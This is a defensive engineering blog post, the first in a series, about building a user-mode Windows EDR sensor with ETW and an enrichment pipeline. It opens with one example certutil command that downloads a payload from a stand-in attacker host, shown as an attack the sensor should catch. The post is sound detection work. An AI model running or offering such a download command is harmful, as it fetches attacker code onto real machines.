




certutil -urlcache -f http://evil.site/payload.exe update.exeIf you saw that command run on a machine you were responsible for, you'd know instantly something was wrong. certutil is a legitimate, Microsoft signed binary that ships with every copy of Windows. It's also one of the most abused living off the land tools out there, because a path only check sees nothing suspicious here. C:\Windows\System32\certutil.exe is exactly where it's supposed to be, signed by exactly who you'd expect. The command line is the entire attack.
So here's the question that actually kicked this whole project off. How does EDR find out that Windows created another process the instant it happens, with enough detail to decide if it's malicious? Not "how does it decide the command is bad," that's a detection logic problem, further downstream. I mean the mechanical question underneath it: your EDR is just another process running on the OS, with no special X-ray vision into anything. How does it find out, in real time, that a process was even created, let alone what it was told to do?
That question is why I started building my own EDR sensor from scratch. This post is the introduction to that series: what the project is, why I'm doing it, what I've built so far, and the first real wall I hit.
Why build an EDR when EDRs already exist
Most of what I do day to day is write and tune detection rules against telemetry that's already been captured, normalized, and shipped to me by someone else's sensor. That's real, valuable work, but it left a gap in my head. I could write a detection rule against a processrollup2 event all day and never once have built the thing that actually produces one.
This project is me closing that gap on purpose. The goal isn't to ship a product, it's to build every layer of an endpoint sensor by hand, understand exactly which Windows component tells you what, and come out the other side able to reason about EDR internals the way I currently reason about detection rules. I'm calling the sensor ReaperWatch, and I'm building it in phases, starting from user mode and working my way down toward the kernel.
The mental model: acquisition, then enrichment
Your agent is just another process. It has no magic X-ray vision into the OS. To observe process creation it must subscribe to a notification mechanism that Windows provides. Windows offers several such mechanisms, each sitting at a different layer of the OS. The layer you pick decides three things: how early you find out, how much detail you get, and how much it costs in performance and risk. Once you get the notification, it only contains the basics, so you then enrich it by actively querying the OS for the rest (hashes, signature, user, etc.), assemble a normalized event, and ship it onward.
Two phases, always:

You cannot understand Windows telemetry without this. The CPU enforces two privilege levels ("rings"):
| User mode (ring 3) | Kernel mode (ring 0) | |
| Who runs here | Normal apps: browsers | OS core + device drivers |
| Power | Sandboxed, limited | Full access to hardware & memory |
| If it crashes | Only that process dies | Blue Screen of Death |
| Talks to hardware | No | Yes, directly |
When a user-mode program wants the OS to do something privileged (open a file, create a process), it makes a system call that transitions the CPU from ring 3 into ring 0, runs the kernel code, and returns.
A process is actually born inside the kernel. The internal routine is NtCreateUserProcess. So the kernel witnesses process creation first and most completely. Anything running in user mode only ever sees a reported echo of an event the kernel already handled.
This is why every serious EDR needs a presence in both places:
- A kernel driver: sees ground truth earliest, and can even block a process before it executes a single instruction.
- A user-mode agent: does the heavy, risky analysis (hashing, parsing, signature checks) where a crash is safe and won't take down the customer's machine.
The piece I've finished, A user-mode agent. And every sensor design like this really breaks into two phases. First, acquisition: the bare notification that a process just started. Then enrichment: actually going and getting the details an analyst needs to make a call. That split matters because the notification you get is thin. Whatever mechanism you use to learn a process started, it hands you a PID and maybe a couple of fields, not a hash, not a signature, not a parent's creation time. You have to go fetch the rest yourself, and that fetching turns out to be most of the interesting engineering.
Picking an acquisition mechanism
| Mechanism | Runs in | Catches short-lived processes? | Cost |
Polling (CreateToolhelp32Snapshot, diffing snapshots) |
User mode | No, a process living between two snapshots is invisible | Trivial to write, useless for our use case |
WMI (Win32_ProcessStartTrace) |
User mode | Unreliable under load, commonly reported to drop events (I haven't measured this myself) | No driver, but higher latency |
| ETW | User mode | Yes | Steepest API to learn, what I chose |
Kernel callback (PsSetCreateProcessNotifyRoutineEx2) |
Kernel driver | Yes, and can block the process outright | Requires writing, signing, and loading a driver, a bug is a blue screen, not a crash log |
Why ETW for now, and not the kernel callback right away:
ETW gets you real breadth (it catches short-lived processes, unlike polling or WMI) without the cost that actually gates the rest of the project: you don't need to write, sign, and load a kernel driver to use it. That matters a lot at this stage, because a bug in a kernel driver means it's a blue screen, and I genuinely wanted to learn ETW properly before touching kernel work at all. Almost everything I'm building here, the enrichment pipeline especially, carries straight over once I do move to a kernel driver; only the acquisition step at the front changes.
How ETW actually works

- Provider: a component that emits events. Each is identified by a GUID. The one we want is
Microsoft-Windows-Kernel-Process({22FB2CD6-0E7B-422B-A0C7-2FAD1FD0E716}). It fires aProcessStartevent on every creation, carryingProcessID,ParentProcessID,ImageName,CommandLine,SessionID, and more. - Session / controller: you start a trace session (via
StartTrace/EnableTraceEx2) that says "record events from provider X." A session is a named, system-managed buffer. - Consumer: you open the session (
OpenTrace) and callProcessTrace; Windows then invokes your callback for each event in real time. You decode the event's fields using TDH (Trace Data Helper) APIs.
The event flow for a single process launch:

Building the enrichment pipeline
The ETW event I get is thin: pid, parent pid, image name, command line. Everything else, whether the file can be trusted, who's actually running it, whether this is even a legitimate parent, I have to go get myself. That gap is the whole reason enrichment exists, and I built it as a series of small, independently testable steps: each one owns exactly one missing field, and each one I could test against any PID on my main machine, before ETW itself was wired up.
Start with the file. A path tells you what something's called and where it sits, not whether you can trust it. OpenProcess (with the narrowest access right that still works) plus QueryFullProcessImageNameW gets you that path, and location alone is already a signal: a legitimately-named binary running out of Temp reads very differently than the same name sitting in System32.
But a path can be copied, and a name means nothing. What can't be faked is the file's actual content, so the next step is hashing it: SHA-256 and MD5, streamed 64KB at a time through CNG so a multi-hundred-MB binary doesn't blow out memory on something running on every endpoint. Rename a piece of malware to svchost.exe and the path check won't catch it. The hash will. I cross-checked the streaming logic byte-for-byte against certutil -hashfile to make sure it wasn't quietly corrupting anything along the way.
Knowing the hash raises the obvious next question: who signed this file? That's the signature check, and it's where I hit something I didn't expect. Most third-party software carries its signature embedded directly in the file, so checking the file alone tells you everything. Plenty of core Windows binaries don't: cmd.exe carries no signature inside the file at all. Windows instead verifies these against system catalog files that list the hashes of thousands of OS binaries, so my check tries the embedded path first and falls back to the catalog if the file itself carries nothing. I confirmed this directly: explorer.exe verifies through its own embedded signature; cmd.exe and notepad.exe only verify through the catalog. All three come back signed, with the correct signer, because all three genuinely are signed, just through different mechanisms.
{
"event_type": "process_create",
"process": {
"name": "cmd.exe",
"path": "C:\\Windows\\System32\\cmd.exe",
"cmdline": "\"C:\\Windows\\System32\\cmd.exe\" ",
"sha256": "486aa8ac1661c0dc08d3ebea4f25f0009d248f2ced111dea8587c2b7d71b49bb",
"signed": true,
"signer": "Microsoft Windows"
},
"parent": { "name": "powershell.exe", "pid": 7284 },
"grandparent": { "name": "explorer.exe", "pid": 5108 }
}That closes out what the file is. The next question is who's behind it, and that's a different kind of evidence entirely: lineage and identity.
Lineage first. winword.exe spawning cmd.exe spawning powershell.exe is a classic macro-attack chain; services.exe spawning svchost.exe is normal. This sounds like a simple lookup, walk up the process tree, done, except Windows recycles PIDs. The parent PID recorded at a process's birth might belong to an entirely different process by the time you go check it, so the lookup alone isn't enough. The fix is comparing creation timestamps: a real parent has to be strictly older than its child, or the lineage gets thrown out as recycled.
One field got its own dedicated task instead of folding into any of the above: the command line. Go back to the certutil command that opened this post. The path and the hash tell you what ran. The command line tells you what it was doing, and that's exactly where an attack like that one lives. There's no API that just hands you another process's command line, GetCommandLineW only ever returns your own, so getting someone else's means reading their memory directly: their PEB, then RTL_USER_PROCESS_PARAMETERS, then the command line string itself, which lives in a UNICODE_STRING whose length field is measured in bytes, not characters. Get that detail wrong and you either truncate the string in half or read garbage past the end of it.

Two smaller pieces close this out. Host context is just the hostname, OS version, and architecture, and even this has a trap: GetVersionEx has quietly returned the wrong Windows version since Windows 8.1 unless the calling app declares compatibility with the newer OS in its manifest. Rather than deal with that, I used RtlGetVersion instead.
Assembly is simpler: take everything gathered above and pack it into one JSON object per process. Each event also gets a sequence number handed out by a single atomic counter, so two threads can never produce the same number by accident. That number is what makes it possible to notice a dropped event later: if event 104 shows up right after event 102, you know 103 never arrived, whether from a bug or the agent falling behind. Nothing acts on that signal yet, but the number is there for when something does.
Where the plan met reality
The last piece was wiring all of this to a live event source, and it's where I hit the wall I mentioned back at the start of this post.
My first attempt subscribed to the modern manifest provider, Microsoft-Windows-Kernel-Process, using EnableTraceEx2 with the process keyword. It compiled. It ran. It delivered thread events, image-load events, priority-change events, real data flowing in. It never once delivered a ProcessStart event, ID 1, on this Windows 11 build. Not delivered late, not delivered sometimes. Never.
id=0 count=4 // not sure what lol?
id=3 count=159 // ThreadStart
id=4 count=63 // ThreadStop
id=5 count=355 // ImageLoad
id=6 count=258 // ImageUnload
id=7 count=395 // CpuBasePriorityChange
id=8 count=258 // CpuPriorityChange
id=9 count=12 // PagePriorityChange
id=21 count=2386 // ThreadWorkOnBehalfUpdateEverything the provider fires as a side effect of ordinary Windows activity showed up fine. The two IDs that actually define a process sensor, start and stop, never did.
id 1 (ProcessStart) and id 2 (ProcessStop), the two I actually needed, don't appear anywhere in that list. Not a low count. Absent.
The fix was dropping down a level, to the classic NT Kernel Logger, the same mechanism Process Monitor relies on. It doesn't use the manifest-subscription model at all, you enable it with flags at session creation instead. Switching to it worked immediately.
That's the sensor as it stands today: NT Kernel Logger for acquisition, the pipeline above for enrichment, one normalized JSON event per process launch, live, on a real machine.
What's still open
There's a real limitation underneath all of this. My enrichment runs after the ETW event fires. I get a PID, then call OpenProcess, read memory, hash the file, all of which takes real time. If the process is already gone by the time I get to it, I'm left with null fields where the path, hash, and signature should be.
This isn't just a concern about attackers running something short-lived on purpose. Watching this run on my own machine, with nothing malicious happening at all, plenty of ordinary processes still come back with null fields. They just didn't live long enough for enrichment to catch up before they exited.
That's the acquisition-versus-enrichment split from the start of this post catching up with me. A user-mode agent, however careful, only finds out after the fact. Closing that gap means moving acquisition into the kernel, the half I deferred at the beginning. That's Part 2.
This is Part 1 of a series I'm building in public. The agent as it stands today is one phase, user mode, ETW-based, with the enrichment pipeline above. Part 2 covers moving acquisition into the kernel and what actually closing the TOCTOU gap from the last section takes.